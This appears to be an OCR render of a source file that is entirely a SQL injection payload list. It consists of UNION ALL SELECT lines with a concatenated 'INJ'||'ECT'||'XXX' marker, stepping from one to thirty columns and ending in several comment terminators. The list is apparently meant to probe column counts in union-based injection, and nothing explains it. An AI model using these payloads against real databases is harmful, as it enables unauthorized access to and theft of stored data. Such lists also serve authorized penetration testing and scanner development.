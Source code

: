  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9#